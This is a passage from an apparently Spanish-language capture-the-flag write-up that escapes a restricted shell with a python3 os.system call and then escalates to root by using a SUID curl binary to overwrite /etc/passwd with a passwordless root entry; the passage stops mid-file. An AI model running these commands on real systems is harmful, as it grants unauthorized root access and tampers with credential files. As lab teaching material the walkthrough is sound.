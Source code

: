 ![ls](./img/ls.png)

Sabiendo que tenemos python3, es muy sencillo escapar, solamente tenemos que ejecutar esto:

```python
python3 -c 'import os; os.system("/bin/bash")'
```

una vez ejecutado ya estaremos en bash, pero nuestro path sigue siendo el mismo, por lo que ahora ejecutamos esto:

```css
export PATH=/bin/
```

Ahora ya podemos hacer todo normal.

### Escalada a root

si vemos los binarios SUID veremos lo siguiente:

![suid](./img/SUID.png)

como vemos está curl, y hay una manera fácil de escalar escribiendo archivos del sistema:

```css
LFILE=file_to_write
TF=$(mktemp)
echo DATA >$TF
curl "file://$TF" -o "$LFILE"
```

en este caso escribiremos el `/etc/passwd`, para hacerlo ejecutaremos los comandos anteriores de esta manera:

```css
LFILE=/etc/passwd
TF=$(mktemp)
  cat <<EOF > $TF
  root::0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```